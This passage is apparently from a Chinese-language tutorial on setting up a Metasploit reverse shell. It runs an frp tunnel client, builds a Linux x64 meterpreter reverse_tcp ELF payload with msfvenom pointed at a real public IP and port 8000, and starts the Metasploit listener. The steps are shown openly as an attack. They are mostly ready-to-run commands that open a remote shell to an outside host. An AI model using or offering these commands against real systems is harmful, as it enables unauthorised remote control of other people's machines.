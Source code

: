 ```shell
└─$
```

启动frpc客户端:

```shell
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ ./frpc -c frpc.ini
```

![image-20211012175510710](assets/image-20211012175510710.png)





生成二进制文件

```shell
┌──(kali㉿kali)-[~]
└─$ msfvenom -a x64  --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=175.24.115.4 LPORT=8000 -b "\x00" -f elf -o xuegod
```

![image-20211012175807108](assets/image-20211012175807108.png)

​	

启动msf，开启监听端口

```shell
┌──(kali㉿kali)-[/var/www/html]
└─$ sudo msfdb run
```
